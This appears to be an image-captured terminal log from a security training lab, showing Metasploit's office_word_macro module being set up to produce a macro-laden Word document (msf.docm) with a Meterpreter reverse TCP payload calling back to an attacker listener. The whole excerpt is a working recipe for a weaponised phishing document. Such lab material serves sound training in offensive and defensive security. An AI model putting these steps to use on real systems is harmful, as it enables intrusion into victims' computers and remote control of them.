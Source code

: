 ```bash
          
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/fileformat/office_word_macro) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/fileformat/office_word_macro) > show options

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CUSTOMTEMPLATE                   no        A docx file that will be used as a template to build the exploit
   FILENAME        msf.docm         yes       The Office document macro file (docm)

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**

Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows

View the full module info with the info, or info -d command.

msf6 exploit(multi/fileformat/office_word_macro) > exploit

[*] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /root/.msf4/local/msf.docm
msf6 exploit(multi/fileformat/office_word_macro) > exit   
```
